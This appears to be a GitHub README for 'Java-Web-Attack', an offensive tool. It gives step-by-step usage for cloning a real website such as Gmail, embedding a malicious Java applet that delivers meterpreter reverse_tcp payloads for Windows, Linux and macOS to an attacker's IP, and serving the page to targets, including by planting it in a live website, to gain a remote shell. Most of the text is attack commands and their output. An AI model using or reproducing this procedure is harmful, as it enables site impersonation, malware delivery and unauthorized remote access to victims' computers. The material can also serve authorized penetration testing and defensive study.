 # Java-Web-Attack
[Documentation](https://github.com/adhdproject/java-web-attack)
[Website](https://github.com/adhdproject/java-web-attack)
Java-web-attack is a simple set of a few scripts which will download an HTML page, embed a malicious Java applet within it, and then re-host it for you to share with your target. 

Since Java applets have been being phased out for almost a decade, it's unclear how useful this tool would be nowadays. I definitely wouldn't rule it completely useless yet, though. 

### Usage
1. First, we need to clone a website that we wish to weaponize. We can use the `clone.sh` script to do this. The `clone.sh` script is a wrapper around wget which spoofs a desktop Chrome session to subvert web scraping filters. 

```
$ ./clone.sh https://gmail.com
Saving to: ‘index.html’ [ <=> ] 74,115 --.-K/s in 0.1s 
2015-02-21 02:52:13 (649 KB/s) - ‘index.html’ saved [74115] 
Converting index.html... 0-9 
Converted 1 files in 0.001 seconds.
```

2. Next, we need to embed the Java applet into the page with the `weaponize.py` script. By default, `weaponize.py` will implant a meterpreter reverse_tcp binary, though this is customizable with flags to the script.

```
$ ./weaponize.py index.html 172.16.215.138

Generating Windows payload: windows/meterpreter/reverse_tcp... 
Generating Linux payload: linux/x86/meterpreter/reverse_tcp... 
Generating Mac OS X payload: osx/x86/shell_reverse_tcp... 
Weaponizing html... 
Creating listener resource script... 
All output written to the "output" directory.
```

3. Finally, we must serve this weaponized HTML page to a target with Java applets enabled in their browser. The program can be tested using the generated `serve.sh` script, or it can be delivered by embedding into a real, trafficked website. Once the applet has run, the reverse_tcp client will reach out to our meterpreter server and we will be presented with a shell on their system. 
